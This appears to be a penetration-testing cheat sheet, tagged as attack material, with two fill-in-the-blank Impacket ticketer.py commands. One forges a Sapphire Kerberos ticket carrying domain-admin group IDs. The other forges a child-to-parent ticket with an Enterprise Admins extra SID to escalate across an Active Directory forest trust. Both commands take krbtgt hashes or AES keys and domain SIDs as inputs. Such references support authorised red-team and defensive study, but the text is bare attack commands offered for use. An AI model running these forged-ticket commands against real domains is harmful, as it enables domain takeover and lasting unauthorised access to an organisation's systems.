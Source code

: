 # Ticketer
#plateform/linux #target/remote #cat/ATTACK


## Ticketer with Sapphire ticket
#plateform/linux #target/remote #cat/ATTACK
```
ticketer.py -request -domain "<domain>" -user "<user>" 
-password "<password>" -nthash '<krbtgt/service NT hash>' -aesKey '<krbtgt/service AES key>' -domain-sid '<DOMAIN_SID_HERE>' -user-id '1337' -groups '512,513,518,519,520' '<target>'
```

## Ticketer - Child to Parent
#plateform/linux #target/remote #cat/ATTACK
```
ticketer.py -aesKey '<child_krbtgt_aeskey>' -domain <CHILD_DOMAIN_NAME> -domain-sid <YOUR_DOMAIN_SID> -extra-sid <TARGET_DOMAIN_HERE>-519 Administrator -user-id 500
```